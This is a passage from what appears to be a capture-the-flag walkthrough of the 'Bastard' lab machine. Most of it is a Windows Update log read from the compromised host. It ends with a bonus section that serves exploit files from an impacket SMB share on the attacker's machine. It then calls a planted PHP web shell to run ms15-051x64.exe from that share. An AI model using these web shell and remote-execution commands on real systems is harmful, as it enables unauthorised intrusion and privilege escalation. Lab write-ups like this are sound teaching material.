2017-12-25	04:25:06:586	 772	644	Report	  * OS Product Type = 0x00000008
2017-12-25	04:25:06:617	 772	644	Report	  * Computer Brand = VMware, Inc.
2017-12-25	04:25:06:617	 772	644	Report	  * Computer Model = VMware Virtual Platform
2017-12-25	04:25:06:617	 772	644	Report	  * Bios Revision = 6.00
2017-12-25	04:25:06:617	 772	644	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-12-25	04:25:06:617	 772	644	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-12-25	04:25:06:617	 772	644	Report	  * Locale ID = 1032
2017-12-25	04:25:06:617	 772	644	AU	Successfully wrote event for AU health state:0
2017-12-25	04:25:06:617	 772	644	AU	Successfully wrote event for AU health state:0
2017-12-25	04:25:06:617	 772	644	AU	AU finished delayed initialization
2017-12-25	04:25:06:617	 772	644	AU	AU setting next sqm report timeout to 2017-12-26 02:25:06
2017-12-25	04:25:11:641	 772	9b0	Report	CWERReporter finishing event handling. (00000000)
2017-12-24	16:31:38:353	 772	644	AU	AU initiates service shutdown
2017-12-24	16:31:38:353	 772	644	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-12-24	16:31:38:353	 772	644	Report	CWERReporter finishing event handling. (00000000)
2017-12-24	16:31:38:353	 772	644	Service	*********
2017-12-24	16:31:38:353	 772	644	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-12-24	16:31:38:353	 772	644	Service	*************
2017-12-24	16:38:06:362	 804	9d8	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2017-12-24	16:38:06:362	 804	9d8	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-12-24	16:38:06:362	 804	9d8	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-12-24	16:38:06:362	 804	9d8	Service	*************
2017-12-24	16:38:06:362	 804	9d8	Service	** START **  Service: Service startup
2017-12-24	16:38:06:362	 804	9d8	Service	*********
2017-12-24	16:38:06:502	 804	9d8	Agent	  * WU client version 7.3.7600.16385
2017-12-24	16:38:06:502	 804	9d8	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-12-24	16:38:06:502	 804	9d8	Agent	  * Access type: No proxy
2017-12-24	16:38:06:502	 804	9d8	Agent	  * Network state: Connected
2017-12-24	16:38:51:961	 804	9d8	Report	CWERReporter::Init succeeded
2017-12-24	16:38:51:961	 804	9d8	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-12-24	16:38:51:961	 804	9d8	Agent	***********  Agent: Initializing global settings cache  ***********
2017-12-24	16:38:51:961	 804	9d8	Agent	  * WSUS server: <NULL>
2017-12-24	16:38:51:961	 804	9d8	Agent	  * WSUS status server: <NULL>
2017-12-24	16:38:51:961	 804	9d8	Agent	  * Target group: (Unassigned Computers)
2017-12-24	16:38:51:961	 804	9d8	Agent	  * Windows Update access disabled: No
2017-12-24	16:38:51:961	 804	9d8	DnldMgr	Download manager restoring 0 downloads
2017-12-24	16:38:51:961	 804	9d8	AU	###########  AU: Initializing Automatic Updates  ###########
2017-12-24	16:38:51:961	 804	9d8	AU	AU setting next sqm report timeout to 2017-12-24 14:38:51
2017-12-24	16:38:51:961	 804	9d8	AU	  # AU disabled through User preference
2017-12-24	16:38:51:961	 804	9d8	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-12-24	16:38:51:961	 804	9d8	AU	Initializing featured updates
2017-12-24	16:38:51:961	 804	9d8	AU	Found 0 cached featured updates
2017-12-24	16:38:52:023	 804	9d8	Report	***********  Report: Initializing static reporting data  ***********
2017-12-24	16:38:52:023	 804	9d8	Report	  * OS Version = 6.1.7600.0.0.197008
2017-12-24	16:38:52:023	 804	9d8	Report	  * OS Product Type = 0x00000008
2017-12-24	16:38:52:023	 804	9d8	Report	  * Computer Brand = VMware, Inc.
2017-12-24	16:38:52:023	 804	9d8	Report	  * Computer Model = VMware Virtual Platform
2017-12-24	16:38:52:039	 804	9d8	Report	  * Bios Revision = 6.00
2017-12-24	16:38:52:039	 804	9d8	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-12-24	16:38:52:039	 804	9d8	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-12-24	16:38:52:039	 804	9d8	Report	  * Locale ID = 1032
2017-12-24	16:38:52:039	 804	9d8	AU	Successfully wrote event for AU health state:0
2017-12-24	16:38:52:039	 804	9d8	AU	Successfully wrote event for AU health state:0
2017-12-24	16:38:52:039	 804	9d8	AU	AU finished delayed initialization
2017-12-24	16:38:52:039	 804	9d8	AU	AU setting next sqm report timeout to 2017-12-25 14:38:52
2017-12-24	16:38:57:046	 804	a28	Report	CWERReporter finishing event handling. (00000000)
2017-12-24	16:45:59:386	 804	9d8	AU	AU initiates service shutdown
2017-12-24	16:45:59:386	 804	9d8	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-12-24	16:45:59:401	 804	9d8	Report	CWERReporter finishing event handling. (00000000)
2017-12-24	16:45:59:401	 804	9d8	Service	*********
2017-12-24	16:45:59:401	 804	9d8	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-12-24	16:45:59:401	 804	9d8	Service	*************
2018-01-24	08:15:02:611	 796	a4c	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2018-01-24	08:15:02:611	 796	a4c	Misc	  = Process: C:\Windows\system32\svchost.exe
2018-01-24	08:15:02:611	 796	a4c	Misc	  = Module: c:\windows\system32\wuaueng.dll
2018-01-24	08:15:02:611	 796	a4c	Service	*************
2018-01-24	08:15:02:611	 796	a4c	Service	** START **  Service: Service startup
2018-01-24	08:15:02:611	 796	a4c	Service	*********
2018-01-24	08:15:02:877	 796	a4c	Agent	  * WU client version 7.3.7600.16385
2018-01-24	08:15:02:877	 796	a4c	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2018-01-24	08:15:02:877	 796	a4c	Agent	  * Access type: No proxy
2018-01-24	08:15:02:877	 796	a4c	Agent	  * Network state: Connected
2018-01-24	08:15:48:179	 796	a4c	Report	CWERReporter::Init succeeded
2018-01-24	08:15:48:179	 796	a4c	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2018-01-24	08:15:48:179	 796	a4c	Agent	***********  Agent: Initializing global settings cache  ***********
2018-01-24	08:15:48:179	 796	a4c	Agent	  * WSUS server: <NULL>
2018-01-24	08:15:48:179	 796	a4c	Agent	  * WSUS status server: <NULL>
2018-01-24	08:15:48:179	 796	a4c	Agent	  * Target group: (Unassigned Computers)
2018-01-24	08:15:48:179	 796	a4c	Agent	  * Windows Update access disabled: No
2018-01-24	08:15:48:179	 796	a4c	DnldMgr	Download manager restoring 0 downloads
2018-01-24	08:15:48:179	 796	a4c	AU	###########  AU: Initializing Automatic Updates  ###########
2018-01-24	08:15:48:179	 796	a4c	AU	AU setting next sqm report timeout to 2018-01-24 06:15:48
2018-01-24	08:15:48:179	 796	a4c	AU	  # AU disabled through User preference
2018-01-24	08:15:48:179	 796	a4c	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2018-01-24	08:15:48:179	 796	a4c	AU	Initializing featured updates
2018-01-24	08:15:48:179	 796	a4c	AU	Found 0 cached featured updates
2018-01-24	08:15:48:210	 796	a4c	Report	***********  Report: Initializing static reporting data  ***********
2018-01-24	08:15:48:210	 796	a4c	Report	  * OS Version = 6.1.7600.0.0.197008
2018-01-24	08:15:48:210	 796	a4c	Report	  * OS Product Type = 0x00000008
2018-01-24	08:15:48:226	 796	a4c	Report	  * Computer Brand = VMware, Inc.
2018-01-24	08:15:48:226	 796	a4c	Report	  * Computer Model = VMware Virtual Platform
2018-01-24	08:15:48:226	 796	a4c	Report	  * Bios Revision = 6.00
2018-01-24	08:15:48:226	 796	a4c	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2018-01-24	08:15:48:226	 796	a4c	Report	  * Bios Release Date = 2016-04-05T00:00:00
2018-01-24	08:15:48:226	 796	a4c	Report	  * Locale ID = 1032
2018-01-24	08:15:48:226	 796	a4c	AU	Successfully wrote event for AU health state:0
2018-01-24	08:15:48:226	 796	a4c	AU	Successfully wrote event for AU health state:0
2018-01-24	08:15:48:226	 796	a4c	AU	AU finished delayed initialization
2018-01-24	08:15:48:226	 796	a4c	AU	AU setting next sqm report timeout to 2018-01-25 06:15:48
2018-01-24	08:15:53:233	 796	aac	Report	CWERReporter finishing event handling. (00000000)

C:\Windows>
```

###### Bonus - Execute files on a UNC share

```sh
root@kali:~/bastard# impacket-smbserver testserver `pwd`
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.9,49185)
[*] AUTHENTICATE_MESSAGE (\,BASTARD)
[*] User \BASTARD authenticated successfully
[*] :::00::4141414141414141
[*] AUTHENTICATE_MESSAGE (\,BASTARD)
[*] User \BASTARD authenticated successfully
[*] :::00::4141414141414141
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(3:TESTSERVER)
[*] Disconnecting Share(2:TESTSERVER)
[*] Handle: [Errno 104] Connection reset by peer
[*] Closing down connection (10.10.10.9,49185)
[*] Remaining connections []
```

```
http://10.10.10.9/myshell.php?fexec=\\10.10.14.5\testserver\ms15-051x64.exe whoami
```


